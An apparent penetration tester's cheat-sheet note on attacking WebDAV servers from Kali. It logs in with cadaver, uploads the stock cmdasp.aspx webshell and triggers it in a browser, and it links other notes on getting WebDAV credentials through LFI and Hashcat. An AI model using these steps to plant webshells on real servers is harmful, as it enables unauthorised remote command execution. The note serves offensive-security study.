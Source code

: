 ![[Pasted image 20220328105716.png]]

#### Login
```bash - kali
cadaver http://$TARGET
```

Sometimes you see webdav at different location, be sure to follow your dirsearch.py results!

#### Reverse Shell
```bash - kali
cp /usr/share/webshells/aspx/cmdasp.aspx .
```

Login with steps above if needed.

```bash - kali
put cmdasp.aspx cmdasp.aspx
```

Visit page via browser.
```
http://$TARGET/cmdasp.aspx
```
#### LFI
![[3._LFI RFI#Webdav creds]]

![[Hashcat#WebDav]]

#### File Upload
![[Curl#Upload file]]

#### Webdav trigger webshell
![[Curl#Webdav trigger webshell]]




